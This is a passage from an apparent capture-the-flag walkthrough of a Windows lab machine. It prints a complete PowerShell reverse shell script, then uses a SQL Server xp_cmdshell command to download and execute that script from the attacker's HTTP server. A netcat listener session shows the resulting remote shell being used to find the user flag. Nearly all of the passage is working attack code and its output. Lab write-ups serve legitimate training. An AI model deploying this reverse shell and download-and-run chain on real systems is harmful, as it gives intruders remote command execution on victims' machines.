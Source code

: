 In order to get a shell, we can craft a powershell reverse shell script which we can upload to the target.

```
$client = New-Object System.Net.Sockets.TCPClient('tun0',4433);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Save it as shell.ps1 and serve it

```bash
➜  serve 8080
Serving files from /home/kali/Desktop/archetype
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.129.92.164 - - [15/Feb/2022 12:02:15] "GET /shell.ps1 HTTP/1.1" 200 -
```

On the `xp_shell` , execute:

```
SQL> EXEC xp_cmdshell 'echo IEX (New-Object Net.WebClient).DownloadString("http://10.10.15.77:8080/shell.ps1") | powershell -noprofile'
```

Once you get a shell, you can easily find the user flag in `sql_svc`'s home directory.

```powershell
➜  nc -lnvp 4433
listening on [any] 4433 ...
connect to [10.10.15.77] from (UNKNOWN) [10.129.92.164] 49680
pwd

Path
----
C:\Windows\system32


PS C:\Windows\system32> cd ..\..\Users
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        1/19/2020  10:39 PM                Administrator
d-r---        1/19/2020  10:39 PM                Public
d-----        1/20/2020   5:01 AM                sql_svc


PS C:\Users> cd sql_svc
PS C:\Users\sql_svc> cd Desktop
PS C:\Users\sql_svc\Desktop> dir


    Directory: C:\Users\sql_svc\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        2/25/2020   6:37 AM             32 user.txt


PS C:\Users\sql_svc\Desktop> type user.txt
```